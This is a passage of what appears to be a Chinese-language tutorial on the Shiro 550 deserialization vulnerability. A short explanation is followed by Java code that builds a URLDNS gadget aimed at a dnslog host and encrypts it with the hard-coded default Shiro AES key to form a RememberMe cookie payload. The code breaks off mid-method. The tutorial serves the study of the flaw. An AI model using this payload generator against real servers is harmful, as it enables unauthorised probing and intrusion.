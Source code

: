 可以看到区别仅仅是在读取输入流时没有用我们常规的ObjectInputStream而是用了ClassResolvingObjectInputStream（这点我们后面会再次提到），其他的基本上没区别，相当于直接对解密后的数据进行了反序列化。

所以从全流程来看其实Shiro550并不难，原因就是由于对解密后的数据进行了反序列化，而加解密的其他参数（密钥，IV等）又为入侵者所可控或知晓。

## 实操

我们先使用URLDNS链来验证这一漏洞：构造生成Base64的代码：

```java
import javax.crypto.BadPaddingException;
import javax.crypto.Cipher;
import javax.crypto.IllegalBlockSizeException;
import javax.crypto.NoSuchPaddingException;
import javax.crypto.spec.IvParameterSpec;
import javax.crypto.spec.SecretKeySpec;
import java.io.ByteArrayOutputStream;
import java.io.IOException;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.net.URL;
import java.security.InvalidAlgorithmParameterException;
import java.security.InvalidKeyException;
import java.security.NoSuchAlgorithmException;
import java.security.SecureRandom;
import java.util.Base64;
import java.util.HashMap;

public class Test {
    public static void main(String[] args) throws NoSuchPaddingException, NoSuchAlgorithmException, InvalidAlgorithmParameterException, InvalidKeyException, IllegalBlockSizeException, BadPaddingException, IOException, NoSuchFieldException, IllegalAccessException {
        System.out.println(tob64(urldns()));
    }

    private static byte[] urldns() throws IOException, NoSuchFieldException, IllegalAccessException {
        HashMap<URL, Integer> Hashmap = new HashMap<URL, Integer>();
        URL url = new URL("http://5254e6ee.dnslog.biz");
        Class<URL> urlClass = URL.class;
        Field hashCode = urlClass.getDeclaredField("hashCode");
        hashCode.setAccessible(true);
        hashCode.set(url,10);
        Hashmap.put(url,1);
        hashCode.set(url,-1);
        ByteArrayOutputStream bos = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(bos);
        oos.writeObject(Hashmap);
        oos.flush();
        return bos.toByteArray();
    }
    
    private static String tob64(byte[] scode) throws NoSuchPaddingException, NoSuchAlgorithmException, InvalidAlgorithmParameterException, InvalidKeyException, IllegalBlockSizeException, BadPaddingException {
        byte[] keyBytes = Base64.getDecoder().decode("kPH+bIxk5D2deZiIxcaaaA==");
        SecretKeySpec keySpec = new SecretKeySpec(keyBytes, "AES");
        byte[] iv = new byte[16];
        new SecureRandom().nextBytes(iv);
        IvParameterSpec ivSpec = new IvParameterSpec(iv);
        Cipher cipher = Cipher.getInstance("AES/CBC/PKCS5Padding");
        cipher.init(Cipher.ENCRYPT_MODE, keySpec, ivSpec);
        byte[] encryptedData = cipher.doFinal(scode);
        byte[] concatenatedArray = new byte[iv.length + encryptedData.length];
```